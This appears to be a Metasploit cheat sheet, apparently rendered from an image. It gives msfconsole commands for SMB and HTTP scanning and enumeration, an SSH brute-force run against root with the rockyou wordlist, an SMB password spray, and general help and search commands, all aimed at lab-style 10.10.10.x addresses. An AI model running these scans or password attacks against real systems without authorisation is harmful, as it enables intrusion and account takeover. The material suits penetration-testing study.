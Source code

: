 
## Useful Metasploit Modules

### Scanning and Enumeration

```bash
# SMB version scanning
use auxiliary/scanner/smb/smb_version
set RHOSTS 10.10.10.0/24
run

# SMB share enumeration
use auxiliary/scanner/smb/smb_enumshares
set RHOSTS 10.10.10.50
set SMBUser username
set SMBPass password
run

# HTTP directory scanner
use auxiliary/scanner/http/dir_scanner
set RHOSTS 10.10.10.50
run
```

### Password Attacks

```bash
# SSH brute force
use auxiliary/scanner/ssh/ssh_login
set RHOSTS 10.10.10.50
set USERNAME root
set PASS_FILE /usr/share/wordlists/rockyou.txt
set THREADS 4
run

# SMB password spray
use auxiliary/scanner/smb/smb_login
set RHOSTS 10.10.10.0/24
set SMBUser administrator
set SMBPass Welcome2024!
run
```

---

## Quick Reference Commands

### Inside msfconsole

```bash
# Help
help
help search
help set

# Search
search type:exploit smb
search cve:2021

# Show options
show options
show payloads
show targets

```